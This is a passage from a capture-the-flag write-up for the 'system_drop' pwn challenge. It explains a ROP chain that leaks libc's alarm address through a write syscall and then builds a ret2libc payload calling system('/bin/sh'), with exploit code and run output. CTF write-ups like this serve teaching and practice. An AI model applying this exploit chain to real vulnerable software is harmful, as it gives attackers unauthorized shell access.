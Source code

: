 ```python
p.recv()
```

So first, We define all gadgets we got before using [ROPgadget](https://github.com/JonathanSalwan/ROPgadget).
Next, Build the leak_buff, Start with 0x28 garbage bytes (to fill the offset between the buffer to ```rip```), using ```pop_rdi``` gadget to write 1 to rdi (which 1 is stdout), ```pop_rsi_r15``` gadget using to write the address of ```alarm``` function to ```rsi``` register to make ```write``` function to print ```alarm``` address, Then we use ```syscall``` gadget to call ```write``` function (as remember after ```read()``` function ```rax``` register set to 1), and then we return again to ```_start``` function.

The second part received 8 bytes output from ```write``` function, those bytes are ```alarm``` address, Then we just calculated the libc address, and finally we can get the address of ```system``` and ```/bin/sh``` string. 

Let's run it:
```python
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/pwn/system_drop]
└──╼ $ python3 exploit.python
[*] '/ctf_htb/cyber_apocalypse/pwn/system_dropsystem_drop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process '/ctf_htb/cyber_apocalypse/pwn/system_drop/system_drop': pid 26224
[*] Leaked alarm: 0x7f3f4fdda610
[*] Libc system @ 0x7f3f4fd45550
[*] Libc bin_sh @ 0x7f3f4fea9e1a
```

And we have relevants leaked address.

Now, It's basically call to ```system``` with ```/bin/sh``` and we can pop shell (ret2libc).

```python
# shell buffer
shell_buf = b'A'*0x28
shell_buf += p64(pop_rdi)
shell_buf += p64(bin_sh)
shell_buf += p64(pop_rsi_r15)
shell_buf += p64(0)
shell_buf += p64(0)
shell_buf += p64(system)

p.send(shell_buf)

p.interactive()
```
